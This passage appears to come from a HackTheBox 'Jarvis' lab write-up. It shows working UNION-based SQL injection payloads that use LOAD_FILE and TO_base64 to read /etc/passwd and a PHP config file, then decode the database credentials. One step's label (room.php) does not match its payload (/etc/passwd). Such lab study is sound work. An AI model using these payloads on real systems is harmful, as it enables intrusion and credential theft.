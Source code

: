 	<div style="width:100%;height:0px;position:relative;padding-bottom:101.989%;"><iframe src="https://streamable.com/e/vwfpi5" frameborder="0" width="100%" height="100%" allowfullscreen style="width:100%;height:100%;position:absolute;left:0px;top:0px;overflow:hidden;"></iframe></div>


# Initial Foothold - Alternatives
## Obtain DBMS user
1. Instead of enumerating the `mysql` database and extracting the username & hash, we use `LOAD_FILE()` function, to potentially include a file w/ credentials.
2. Use `TO_base64()` to encode `room.php`, otherwise nothing will be displayed, similar to `php://filter/convert.base64-encode/resource=<file>`.
3. Load `Base64` encoded `room.php`  
	```
	# Payload
	-1%20UNION%20SELECT%201,TO_base64(LOAD_FILE('/etc/passwd')),3,4,5,6,7 
	```
	![]({{ page.img_path }}Pasted%20image%2020220915191106.png)
3. Decode `base64` encoded `room.php`
	```
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/loot]
	└─# base64 -d room.php.b64 | head
	<?php
	error_reporting(0);
	if($_GET['cod']){
	   include("connection.php");
	    include("roomobj.php");
	    $result=$connection->query("select * from room where cod=".$_GET['cod']);
	    $line=mysqli_fetch_array($result);
	    $room=new Room();
	    $room->cod=$line['cod'];
	    $room->name=$line['name'];
	```
	- `connection.php` - contains credentials to connect to `mysql`
4. Load `Base64` encoded `connection.php`
	```
	# Payload
	?cod=-1%20UNION%20SELECT%201,TO_base64(LOAD_FILE('/var/www/html/connection.php')),3,4,5,6,7 
	```
	![]({{ page.img_path }}Pasted%20image%2020220915191743.png)
5. Decode `base64` encoded `connection.php`
	```
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/loot]
	└─# echo "PD9waHAKJGNvbm5lY3Rpb249bmV3IG15c3FsaSgnMTI3LjAuMC4xJywnREJhZG1pbicsJ2ltaXNz
	eW91JywnaG90ZWwnKTsKPz4K" | base64 -d
	<?php
	$connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');
	?>
	```
	- `DBadmin:imissyou`
